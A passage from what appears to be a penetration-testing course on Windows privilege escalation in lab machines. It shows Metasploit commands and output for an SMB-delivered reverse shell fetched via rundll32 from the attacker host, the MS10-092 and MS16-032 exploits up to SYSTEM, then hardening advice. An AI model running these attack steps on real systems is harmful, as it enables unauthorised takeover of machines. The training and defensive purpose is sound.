   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   1   PSH


msf6 exploit(windows/smb/smb_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   DLL
   1   PSH


msf6 exploit(windows/smb/smb_delivery) > set target 0

target => 0


msf6 exploit(windows/smb/smb_delivery) > exploit 
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Started service listener on 10.10.14.3:445 
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```

Open a cmd console on the target host and paste in the rundll32.exe command.

```
C:\htb> rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```

You get a call back quickly.

```bash
msf6 exploit(windows/smb/smb_delivery) > [*] Sending stage (175174 bytes) to 10.129.43.15
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.129.43.15:49609) at 2021-05-12 15:55:05 -0400
```

From here, search for the "MS10_092 Windows Task Scheduler '.XML' Privilege Escalation" module.

```bash
msf6 exploit(windows/smb/smb_delivery) > search 2010-3338

Matching Modules
================
   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/windows/local/ms10_092_schelevator  2010-09-13       excellent  Yes    Windows Escalate Task Scheduler XML Privilege Escalation
   
   
msf6 exploit(windows/smb/smb_delivery) use 0
```

Before using the module in question, you need to hop into your Meterpreter shell and migrate to a 64-bit process, or the exploit will not work. You could also have chosen an x64 Meterpreter payload during the `smb_delivery` step.

```bash
msf6 post(multi/recon/local_exploit_suggester) > sessions -i 1

[*] Starting interaction with 1...

meterpreter > getpid

Current pid: 2268


meterpreter > ps

Process List
============
 PID   PPID  Name               Arch  Session  User                    Path
 ---   ----  ----               ----  -------  ----                    ----
 0     0     [System Process]
 4     0     System
 164   1800  VMwareUser.exe     x86   2        WINLPE-2K8\htb-student  C:\Program Files (x86)\VMware\VMware Tools\VMwareUser.exe
 244   2032  winlogon.exe
 260   4     smss.exe
 288   476   svchost.exe
 332   324   csrss.exe
 376   324   wininit.exe
 476   376   services.exe
 492   376   lsass.exe
 500   376   lsm.exe
 584   476   mscorsvw.exe
 600   476   svchost.exe
 616   476   msdtc.exe
 676   476   svchost.exe
 744   476   taskhost.exe       x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\taskhost.exe
 756   1800  VMwareTray.exe     x86   2        WINLPE-2K8\htb-student  C:\Program Files (x86)\VMware\VMware Tools\VMwareTray.exe
 764   476   svchost.exe
 800   476   svchost.exe
 844   476   svchost.exe
 900   476   svchost.exe
 940   476   svchost.exe
 976   476   spoolsv.exe
 1012  476   sppsvc.exe
 1048  476   svchost.exe
 1112  476   VMwareService.exe
 1260  2460  powershell.exe     x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 1408  2632  conhost.exe        x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\conhost.exe
 1464  900   dwm.exe            x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\dwm.exe
 1632  476   svchost.exe
 1672  600   WmiPrvSE.exe
 2140  2460  cmd.exe            x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\cmd.exe
 2256  600   WmiPrvSE.exe
 2264  476   mscorsvw.exe
 2268  2628  rundll32.exe       x86   2        WINLPE-2K8\htb-student  C:\Windows\SysWOW64\rundll32.exe
 2460  2656  explorer.exe       x64   2        WINLPE-2K8\htb-student  C:\Windows\explorer.exe
 2632  2032  csrss.exe
 2796  2632  conhost.exe        x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\conhost.exe
 2876  476   svchost.exe
 3048  476   svchost.exe
 
 
meterpreter > migrate 2796

[*] Migrating from 2268 to 2796...
[*] Migration completed successfully.


meterpreter > background

[*] Backgrounding session 1...
```

Once this is set, you can now set up the privilege escalation module by specifying your current Meterpreter session, setting your tun0 IP for the LHOST, and a call-back port of your choosing.

```bash
msf6 exploit(windows/local/ms10_092_schelevator) > set SESSION 1

SESSION => 1


msf6 exploit(windows/local/ms10_092_schelevator) > set lhost 10.10.14.3

lhost => 10.10.14.3


msf6 exploit(windows/local/ms10_092_schelevator) > set lport 4443

lport => 4443


msf6 exploit(windows/local/ms10_092_schelevator) > show options

Module options (exploit/windows/local/ms10_092_schelevator):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD                        no        Command to execute instead of a payload
   SESSION   1                yes       The session to run this module on.
   TASKNAME                   no        A name for the created task (default random)
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4443             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   Windows Vista, 7, and 2008
```

If all goes to plan, once you type `exploit`, you will receive a new Meterpreter shell as the NT AUTHORITY\SYSTEM account and can move on to perform any necessary post-exploitation.

```bash
msf6 exploit(windows/local/ms10_092_schelevator) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4443
[*] Preparing payload at C:\Windows\TEMP\uQEcovJYYHhC.exe
[*] Creating task: isqR4gw3RlxnplB
[*] SUCCESS: The scheduled task "isqR4gw3RlxnplB" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\isqR4gw3RlxnplB...
[*] Original CRC32: 0x89b06d1a
[*] Final CRC32: 0x89b06d1a
[*] Writing our modified content back...
[*] Validating task: isqR4gw3RlxnplB
[*]
[*] Folder: \
[*] TaskName                                 Next Run Time          Status
[*] ======================================== ====================== ===============
[*] isqR4gw3RlxnplB                          6/1/2021 1:04:00 PM    Ready
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "isqR4gw3RlxnplB" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "isqR4gw3RlxnplB" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (175174 bytes) to 10.129.43.15
[*] SUCCESS: Attempted to run the scheduled task "isqR4gw3RlxnplB".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.3:4443 -> 10.129.43.15:49634) at 2021-05-12 16:04:34 -0400
[*] SUCCESS: The scheduled task "isqR4gw3RlxnplB" was successfully deleted.
[*] SCHELEVATOR


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM


meterpreter > sysinfo

Computer        : WINLPE-2K8
OS              : Windows 2008 R2 (6.1 Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
```

### Windows Desktop

Windows 7 was made end-of-life on January 14, 2020, but is still in use in many environments.

#### Windows 7 vs. Newer Versions

Over the years, Microsoft has added enhanced security features to subsequent versions of Windows Desktop. The table below shows some notable differences between Windows 7 and Windows 10.

| Feature | Windows 7 | Windows 10 |
| ------- | --------- | ---------- |
| Microsoft Password (_MFA_) | | x |
| Bitlocker | Partial | x |
| Credential Guard | | x |
| Remote Credential Guard | | x |
| Device Guard (_code integrity_) | | x |
| AppLocker | Partial | x |
| Windows Defender | Partial | x |
| Control Flow Guard | | x |

#### Windows 7 Case Study

For your Windows 7 target, you can use Sherlock again, but take a look at Windows-Exploit-Suggester.

To get this tool working on a local version of Parrot/Kali Linux, you need to download the following to install the necessary dependencies.

```bash
d41y@htb[/htb]$ sudo wget https://files.pythonhosted.org/packages/28/84/27df240f3f8f52511965979aad7c7b77606f8fe41d4c90f2449e02172bb1/setuptools-2.0.tar.gz
d41y@htb[/htb]$ sudo tar -xf setuptools-2.0.tar.gz
d41y@htb[/htb]$ cd setuptools-2.0/
d41y@htb[/htb]$ sudo python2.7 setup.py install

d41y@htb[/htb]$ sudo wget https://files.pythonhosted.org/packages/42/85/25caf967c2d496067489e0bb32df069a8361e1fd96a7e9f35408e56b3aab/xlrd-1.0.0.tar.gz
d41y@htb[/htb]$ sudo tar -xf xlrd-1.0.0.tar.gz
d41y@htb[/htb]$ cd xlrd-1.0.0/
d41y@htb[/htb]$ sudo python2.7 setup.py install
```

Once this is done, you need to capture the `systeminfo` command's output and save it to a text file on your attack VM.

```
C:\htb> systeminfo

Host Name:                 WINLPE-WIN7
OS Name:                   Microsoft Windows 7 Professional
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          mrb3n
Registered Organization:
Product ID:                00371-222-9819843-86644
Original Install Date:     3/25/2021, 7:23:47 PM
System Boot Time:          5/13/2021, 5:14:12 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows

<SNIP>
```

You then need to update your local copy of the Microsoft Vulnerability database. This command will save the contents to a local Excel file.

```bash
d41y@htb[/htb]$ sudo python2.7 windows-exploit-suggester.py --update
```

Once this is done, you can run the tool against the vulnerability database to check for potential privilege escalation flaws.

```bash
d41y@htb[/htb]$ python2.7 windows-exploit-suggester.py  --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt 

[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 3 hotfix(es) against the 386 potential bulletins(s) with a database of 137 known exploits
[*] there are now 386 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 SP1 64-bit'
[*] 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[*] 
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[*]   https://github.com/foxglovesec/RottenPotato
[*]   https://github.com/Kevin-Robertson/Tater
[*]   https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
[*]   https://foxglovesecurity.com/2016/01/16/hot-potato/ -- Hot Potato - Windows Privilege Escalation
[*] 
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
[*]   https://www.exploit-db.com/exploits/39990/ -- Windows - gdi32.dll Multiple DIB-Related EMF Record Handlers Heap-Based Out-of-Bounds Reads/Memory Disclosure (MS16-074), PoC
[*]   https://www.exploit-db.com/exploits/39991/ -- Windows Kernel - ATMFD.DLL NamedEscape 0x250C Pool Corruption (MS16-074), PoC
[*] 
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[*]   https://www.exploit-db.com/exploits/39994/ -- Internet Explorer 11 - Garbage Collector Attribute Type Confusion (MS16-063), PoC
[*] 
[E] MS16-059: Security Update for Windows Media Center (3150220) - Important
[*]   https://www.exploit-db.com/exploits/39805/ -- Microsoft Windows Media Center - .MCL File Processing Remote Code Execution (MS16-059), PoC
[*] 
[E] MS16-056: Security Update for Windows Journal (3156761) - Critical
[*]   https://www.exploit-db.com/exploits/40881/ -- Microsoft Internet Explorer - jscript9 Java­Script­Stack­Walker Memory Corruption (MS15-056)
[*]   http://blog.skylined.nl/20161206001.html -- MSIE jscript9 Java­Script­Stack­Walker memory corruption
[*] 
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
[*] 

<SNIP>

[*] 
[M] MS14-012: Cumulative Security Update for Internet Explorer (2925418) - Critical
[M] MS14-009: Vulnerabilities in .NET Framework Could Allow Elevation of Privilege (2916607) - Important
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-097: Cumulative Security Update for Internet Explorer (2898785) - Critical
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[M] MS13-080: Cumulative Security Update for Internet Explorer (2879017) - Critical
[M] MS13-069: Cumulative Security Update for Internet Explorer (2870699) - Critical
[M] MS13-059: Cumulative Security Update for Internet Explorer (2862772) - Critical
[M] MS13-055: Cumulative Security Update for Internet Explorer (2846071) - Critical
[M] MS13-053: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Remote Code Execution (2850851) - Critical
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[*] done
```

Suppose you have obtained a Meterpreter shell on your target using the Metasploit framework. In that case, you can also use this [local exploit suggester module](https://www.rapid7.com/blog/post/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/) which will help you quickly find any potential escalation vectors and run them within Metasploit should any module exist.

Looking through the results, you can see a rather extensive list, some Metasploit modules, and some standalone PoC exploits. You must filter through the noise, remove any DoS exploits, and exploits that do not make sense for your target OS. One that stands out immediately as interesting is MS16-032. A detailed explanation of this bug can be found in this [Project Zero blog](https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.html) post which is a bug in the Secondary Logon Service.

Use a PowerShell PoC to attempt to exploit this and elevate your privileges.

```powershell
PS C:\htb> Set-ExecutionPolicy bypass -scope process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic. Do you want to change the execution
policy?
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): A
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): Y


PS C:\htb> Import-Module .\Invoke-MS16-032.ps1
PS C:\htb> Invoke-MS16-032

         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 6
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1656

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1652
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!
```

This works and you spawn a SYSTEM cmd console.

```
C:\htb> whoami

nt authority\system
```

## Hardening

Proper hardening can elimate most, if not all, opportunities for local privesc. The following steps should be taken, at minimum, to reduce the risk of an attacker gaining system-level access.

### Secure Clean OS Installation

Taking the time to develop a custom image for your environment can save you tons of time in the future from troubleshooting issues with hosts. You can do this utilizing a clean ISO of the OS version you require, a Windows Deployment server or equivalent application for pushing images via disk or networking media, and System Center Configuration Manager. You can find copies of Windows OS [here](https://www.microsoft.com/en-us/software-download/) or pull them using the Microsoft Media Creation Tool. This image should, at minimum, include:

1. Any applications required for your employees' daily duties.
2. Configuration changes need to ensure the functionality and security of the host in your environment.
3. Current major and minor updates have already been tested for your environment and deemed safe for host deployment.

By following this process, you can ensure you clear out any added bloatware or unwanted software preinstalled on the host at the time of purchase. This also makes sure that your hosts in the enterprise all start with the same base configuration, allowing you to troubleshoot, make changes, and push updates much easier.

### Updates and Patching

Microsoft's Update Orchestrator will run updates for you in the background based on your configured settings. For most, this means it will download and install the most recent updates for you behind the scenes. Keep in mind some updates require a restart to take effect, so it's a good practice to restart your hosts regularly. For those working in an enterprise environment, you can set up a WSUS server within your environment so that each computer is not reaching out to download them individually. Instead, they can reach out to the configured WSUS server for any updates required.

In a nutshell, the update process looks something like this:



1. Windows Update Orchestrator will check in with the Microsoft Update servers or your own WSUS server to find new updates needed.
	1. This will happen at random intervals so that your hosts don't flood the update server with requests all at once.
	2. The Orchestrator will then check that list against your host configuration to pull the appropriate updates.
2. Once the Orchestrator decides on applicable updates, it will kick off the downloads in the background.
	1. The updates are stored in the temp folder for access. The manifests for each download are checked, and only the files needed to apply it are pulled.
3. Update Orchestrator will then call the installer agent and pass it the necessary action list.
4. From here, the installer agent applies the updates.
	1. Note that updates are not yet finalized.
5. Once updates are done, Orchestrator will finalize them with a reboot of the host.
	1. This ensures any modification to services or critical settings takes effect.

These actions can be managed by Windows Server Update Services, WSUS or through Group Policy. Regardless of your chosen method to apply updates, ensure you have a plan in place, and updates are being applied regularly to avoid any problems that could arise. Like all the things in the IT world, test the rollout of your updates first, in a development setting, before just pushing an update enterprise-wide. This will ensure you don't accidentally break some critical app or function with the updates.

### Configuration Management

In Windows, configuration management can easily be achieved through the use of Group Policy. Group Policy will allow you to centrally manage user and computer settings and preferences across your environment. This can be achieved by using the Group Policy Management Console (_GPMC_) or via PowerShell.



Group Policy works best in an AD environment, but you do have the ability to manage local computer and user settings via local group policy. From here, you can manage everything from the individual users' backgrounds, bookmarks and other browser setting and how and when Windows Defender scans the host and performs updates. This can be a very granular process, so ensure you have a plan for the implementation of any new group policies created or modified.

### User Management

Limiting the number of user and admin accounts on each system and ensuring that login attempts are logged and monitored can go a long way for system hardening and monitoring potential problems. It is also good to enforce a strong password policy and two-factor authentication, rotate passwords periodically and restrict users from reusing old passwords by using the Password Policy settigns in Group Policy. These settings can be found using GPMC in the path `Computer Configuration\Windows Settings\Security Settings\Account Policies\Password Policy`. You should also check that users are not placed into groups that give them excessive rights unneccesary for their day-to-day tasks and enforce login restrictions for administrator accounts.



This screenshot shows an example of utilizing the group policy editor to view and modify the password policy in the hive mentioned above.

Two Factor Authentication can help prevent fraudulent logins as well. A quick explanation of 2FA is that it requires something you know - password or pin - and something you have - a token, id card, or authenticator application key code. This step will significantly reduce the ability for user accounts to be used maliciously.

### Audit

Perform periodic security and configuration checks of all systems. There are several security baselines such as the DIS [Security Technical Implementation Guides (_STIGs_)](https://public.cyber.mil/stigs/) or Microsoft's [Security Compliance Toolkit](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-security-configuration-framework/security-compliance-toolkit-10) that can be followed to set a standard for security in your environment. Many compliance frameworks exist, such as ISO27001, PCI-DSS, and HIPAA which can be used by an organization to help establish security baselines. These should all be used as reference guides and not the basis for a security program. A strong security program should have controls tailored to the organization's needs, operating environments, and the types of data they store and process.



The STIG viewer window you can see above is one way to perform an audit of the security posture of a host. You import a Checklist found at the STIG link above and step through the rules. Each rule ID corresponds with a security check or hardening task to help improve the overall posture of the host. Looking at the right pane, you cann see details about the actions required to complete the STIG check.

An audit and configuration review is not a replacement for a pentest or other types of technical, hands-on assessments and is often seen as a "box-checking" exercise in which an organization is "passed" on a controls audit for performing the bare minimum. These reviews can help supplement regular regular vulnerability scans, pentests, strong patch, vulnerability, and configuration management programs.

### Logging

Proper logging and log correlation can make all the difference when troubleshooting an issue or hunting a potential threat in your network.

#### Sysmon

... is a tool built by Microsoft and included in the Sysinternals Suite that enhances the logging and event collection capability in Windows. Sysmon provides detailed info about any processes, network connections, file reads or writes, login attempts and successes, and much much more. These logs can be correlated and shipped out to a SIEM for analysis and provide a better understanding of what you have going on in your environment. Sysmon is persistent on host and will begin writing logs at startup. It's an extremely helpful tool if appropriately implemented. For more details about, check out [sysmon info](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon).

Any logs Sysmon writes will be stored in the hive `Applications and Service Logs\Microsoft\Windows\Sysmon\Operational`. You can view these by utilizing the event viewer application and drilling into the hive.

#### Network and Host Logs

Tools like [PacketBeat](https://www.elastic.co/beats/packetbeat), IDS/IPS implementations such as Security Onion sensors, and other network monitoring solutions can help complete the picture for your administrators. They collect and ship network traffic logs to your monitoring solutions and SIEMS.

### Key Hardening Measures

This is by no means an exhaustive list, but some simple hardening measures are:

- Secure boot and disk encryption with BitLocker should be enabled and in use.
- Audit writeable files and directories and any binaries with the ability to launch other apps.
- Ensure that any scheduled tasks and scripts running with elevated privileges specify any binaries or executables using the absolute path.
- Do not store credentials in cleartext in world-readable files on the host or in shared drives.
- Clean up home directories and PowerShell history.
- Ensure that low-privileged users cannot modify any custom libraries called by programs.
- Remove any unnecessary packages and services that potentially increase the attack surface.
- Utilize the Device Guard and Credential Guard features built-in by Microsoft to Windows 10 and most new Server OS.
- Utilize Group Policy to enforce any configuration changes needed to company systems.